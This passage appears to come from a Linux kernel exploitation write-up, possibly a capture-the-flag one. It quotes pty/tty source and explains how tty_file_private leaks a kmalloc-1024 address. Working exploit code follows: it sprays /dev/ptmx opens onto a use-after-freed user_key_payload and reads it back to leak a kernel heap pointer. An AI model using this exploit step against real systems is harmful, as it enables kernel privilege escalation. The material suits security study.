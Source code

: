 ```drivers/tty/pty.c
    tty_add_file(tty, filp);
    ...
}

int tty_alloc_file(struct file *file)
{
    struct tty_file_private *priv;

    priv = kmalloc(sizeof(*priv), GFP_KERNEL);
    file->private_data = priv;
    return 0;
}
void tty_add_file(struct tty_struct *tty, struct file *file)
{
    struct tty_file_private *priv = file->private_data;

    priv->tty = tty;
    priv->file = file;
    ...
}
```

There `tty_alloc_file()` allocate `struct tty_file_private` for `private_data` member of `struct file` of `/dev/ptmx`.
It is allocated in `kmalloc-32`. Then, `tty_init_dev()` allocates `struct tty_struct` from `kmalloc-1024`. And `tty_add_file()` assigns addr of `struct tty_struct` to `struct tty_file_private`. In short, you can leak addr of `kmalloc-1024` by leaking the content of `tty_file_private` in `kmalloc-32`:

```leak_heap.c
  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) {
      if (keyctl_revoke(keys[ix]) != 0) errExit("keyctl_revoke");
      if (keyctl_unlink(keys[ix], KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
    }
  }

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if (open("/dev/ptmx", O_RDWR) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  if(keyctl_read(uafed_key, keybuf, 0x5000) <= 0) errExit("keyctl_read");
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if ((tmp[ix] >> (64-4*4)) == 0xFFFF && tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && (tmp[ix] & 0xFF) == 0x00) { // list_head's next and prev are same
      km1024_leaked = tmp[ix];
      printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
      printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
      printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
      printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
      break;
    }
  }
  if (km1024_leaked == 0) errExit("Failed to leak kmalloc-1024");
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);
```
